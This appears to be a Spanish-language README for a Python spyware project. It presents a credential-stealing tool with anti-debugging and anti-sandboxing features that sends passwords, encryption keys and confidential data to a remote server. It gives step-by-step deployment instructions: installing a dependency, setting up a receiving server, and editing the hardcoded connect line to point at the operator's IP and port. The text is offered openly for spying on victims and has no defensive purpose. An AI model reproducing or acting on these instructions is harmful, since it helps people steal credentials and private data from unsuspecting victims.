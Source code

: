 Spyware made in python with me, zNetDev.a

A simple spyware with anti-debugging and anti-sandboxinga

un spyware simple echo por mi

Este código recopila información (como contraseñas, claves de cifrado y datos confidenciales) y te las envía a un servidor remoto. Este código es básico con técnicas básicas para no ser detectado, si buscas algo para tú poder infiltrarte en sitios grandes y recopilar información con este código,busca otro repositorio publico

¿como se usa?

•Primero preparamos el terreno:

Antes que nada, necesitas tener Python instalado en tu computadora. Si no lo tienes, puedes conseguirlo fácilmente desde el sitio web oficial de Python. La instalación es bastante sencilla, solo sigue las instrucciones que te de el sitio oficial

•conseguir las herramientas necesarias

Este código necesita algunas cosas adicionales para funcionar correctamente. Para obtenerlas, abre una ventana de comandos (en Windows, sería el símbolo del sistema) y escribe lo siguiente:

pip install pycriptodome

•preparar tu propio servidor

Antes de ejecutar el código, necesitas configurar un servidor al que el script enviará los datos que recolecte y desde el cual descargar archivos adicionales si es necesario. Tendrás que tener una dirección IP y un número de puerto a mano para hacerlo.

•modificiacion del código 

Abre el archivo de código Python en un editor de texto o un entorno de desarrollo integrado (IDE) como Visual Studio Code o PyCharm. Busca la línea que contiene la dirección IP y el puerto del servidor remoto, esta se encuentra en la línea 104 del código tambien en la 122 (para que no se confundan al respecto) (s.connect(('192.168.1.100', 12345))). Cambia la dirección IP '192.168.1.100' y el puerto 12345 por los de tu servidor remoto

•ejecutar el code

Una vez que hayas hecho las modificaciones q te he dicho, guarda el archivo de código. Abre una terminal o símbolo del sistema y navega hasta el directorio donde se encuentra el archivo de código Python. Ejecuta el script Python con el siguiente comando:

python nombre_del_archivo.py

(cambia el nombre_del_archivo.py con el nombre del archivo que tengas)

tengo pensado hacer este malware modificado en C o en js.
